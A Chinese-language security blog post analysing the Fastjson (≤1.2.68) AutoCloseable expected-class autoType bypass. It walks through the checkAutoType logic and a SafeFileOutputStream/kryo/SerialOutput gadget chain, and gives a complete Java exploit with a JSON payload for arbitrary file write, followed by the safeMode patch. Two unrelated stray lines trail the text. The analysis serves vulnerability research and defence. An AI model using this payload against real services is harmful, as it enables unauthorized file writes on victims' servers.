

前言
这次来看一下Fastjson高版本利用期望类绕过的手法，虽然分析之后觉得这个版本利用起来比较困难，并且调用链并非现在的我能够挖出来的，找到有用的文章也比较少。但也算了解了一下高版本Fastjson有哪些限制，并且学到了1.2.36版本后的特性对象引用，还算是有所收获。
影响版本
Fastjson <= 1.2.68
依赖
这里用的浅蓝师傅的读写文件的payload分析。
<dependency>
<groupId>org.aspectj</groupId>
<artifactId>aspectjtools</artifactId>
<version>1.9.5</version>
</dependency>
<dependency>
<groupId>com.esotericsoftware</groupId>
<artifactId>kryo</artifactId>
<version>4.0.0</version>
</dependency>
<dependency>
<groupId>com.sleepycat</groupId>
<artifactId>je</artifactId>
<version>5.0.73</version>
</dependency>绕过分析
首先来到checkAutoType方法中，可以看到这里新增了safeMode变量的判断，不过在这个版本里默认是为false，后面的版本默认为true会直接抛出异常。 接着在下面的if中判断是否在期望类的黑名单中，而AutoCloseable不在黑名单中，所以给expectClassFlag赋值为true。
{kind=link}
并且在这里的if会先判断是否实现或者继承于ClassLoader、DataSource、RowSet，是的话就抛出异常，然后会判断typeName是否实现或者继承于Closeable接口，是的话就添加到Mapping中。 所以到这里可以发现，必须要找实现或继承AutoCloseable接口的才能按这种思路绕过。
{kind=link}
基于以上思路可以找到OutputStream实现了Closeable接口，同时org.eclipse.core.internal.localstore.SafeFileOutputStream、com.esotericsoftware.kryo.io.Output、com.sleepycat.bind.serial.SerialOutput继承自OutputStream抽象类。
先看到org.eclipse.core.internal.localstore.SafeFileOutputStream类，这里判断targetPath指定的文件不存在以及tempPath文件不存在时，调用BufferedOutputStream类和FileOutputStream类写入targetPath。
{kind=link}
接着来到com.esotericsoftware.kryo.io.Output类，可以看到在setBuffer方法中将payload中字符base64解码后放到this.buffer中，然后调用setOutputStream方法赋值给this.outputStream。
{kind=link}
最后需要利用com.sleepycat.bind.serial.SerialOutput类将缓冲区内容写入，可以看到这里super(out)触发了ObjectOutputStream的构造方法，以此来调用到了write方法来调用flush方法写入数据。 不过想不明白作者是怎么扫到maven里的某个包有这个调用链。
{kind=link}
除此之外，在EXP中还关注到了Fastjson提供的对象引用功能，可以看到$ref键值有类似模版渲染的东西。 看了su18师傅博客中的图大概就懂了，outputStream中$.stream指的是调用stream中的对象，也就解释了为什么路径能够在后面正常获取，而不用去考虑不同类之间的关系。 以此类推，out中的$ref键值$.writer就引用了writer中的对象，这样三个类就串在了一起。
{kind=link}
{kind=link}
EXP
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
public class Fastjson7 {
public static void main(String[] args) throws Exception{
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String payload = "{\n" +
" \"stream\": {\n" +
" \"@type\": \"java.lang.AutoCloseable\",\n" +
" \"@type\": \"org.eclipse.core.internal.localstore.SafeFileOutputStream\",\n" +
" \"targetPath\": \"/Users/JackTime/IdeaProjects/javaSecurity/src/Fastjson/pwn.txt\",\n" +
" \"tempPath\": \"/Users/JackTime/IdeaProjects/javaSecurity/src/Fastjson/test.txt\"\n" +
" },\n" +
" \"writer\": {\n" +
" \"@type\": \"java.lang.AutoCloseable\",\n" +
" \"@type\": \"com.esotericsoftware.kryo.io.Output\",\n" +
" \"buffer\": \"c2V2ZW4=\",\n" +
" \"outputStream\": {\n" +
" \"$ref\": \"$.stream\"\n" +
" },\n" +
" \"position\": 5\n" +
" },\n" +
" \"close\": {\n" +
" \"@type\": \"java.lang.AutoCloseable\",\n" +
" \"@type\": \"com.sleepycat.bind.serial.SerialOutput\",\n" +
" \"out\": {\n" +
" \"$ref\": \"$.writer\"\n" +
" }\n" +
" }\n" +
"}\n";
JSON.parse(payload);
}
}补丁
后面的版本引入了safeMode来关闭反序列化，一旦反序列化后就会抛出异常。
# 开启SafeMode
ParserConfig.getGlobalInstance().setSafeMode(true);
# 添加黑名单
ParserConfig.getGlobalInstance().addDeny("org.openqa.selenium");There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.